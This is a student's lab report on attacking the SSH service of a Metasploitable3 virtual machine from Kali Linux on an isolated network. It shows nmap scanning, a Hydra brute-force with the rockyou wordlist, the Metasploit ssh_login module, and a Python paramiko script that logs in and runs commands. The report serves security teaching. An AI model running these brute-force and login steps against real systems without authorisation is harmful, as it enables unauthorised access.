 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
  - ![Attacker IP](Phase1/task1.1_screenshots/AttackerIP.png)

- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions

### 1. Network Connectivity Test

Verified communication between attacker and victim:

```bash
ping 192.168.8.165
```

### 2. Scanning the Victim with Nmap

Discovered open ports and running services:

```bash
nmap -sV 192.168.8.165
```

**Key findings:**
- Port 22/tcp (SSH) - OpenSSH 6.6.1p1
- Port 21/tcp (FTP) - ProFTPD 1.3.5
- Port 80/tcp (HTTP) - Apache httpd 2.4.7

---

## 3. Brute-Forcing SSH with Hydra

Attempted to brute-force SSH login credentials:

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```

**Result:**
- Username: `vagrant`
- Password: `vagrant`

---

## 4. Launching Metasploit Framework

Started Metasploit:

```bash
sudo msfconsole
```

---

## 5. Exploiting SSH Using Metasploit

Loaded the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set necessary options:

```bash
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

## 6. Opening the SSH Session

After successful login:

```bash
sessions
sessions -i 1
```

---

## 7. Verifying Shell Access

Executed simple commands inside the victim machine:

```bash
whoami
uname -a
```

**Output:**
- Current user: `vagrant`
- Operating System: Ubuntu 14.04 LTS

---

# Task 1.2: Automated Exploitation Using a Custom Python Script

## Step-by-Step Actions

### 1. Installing Python SSH Library

Installed `paramiko` for SSH communication:

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Custom Script

Created a script `ssh_exploit.py` to automate the login process:

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
```

### 3. Running the Script
Executed the exploit:




```bash
python3 ssh_exploit.py
```
### 4. Verifying Access
Output confirmed successful login as vagrant and execution of commands on the victim machine.

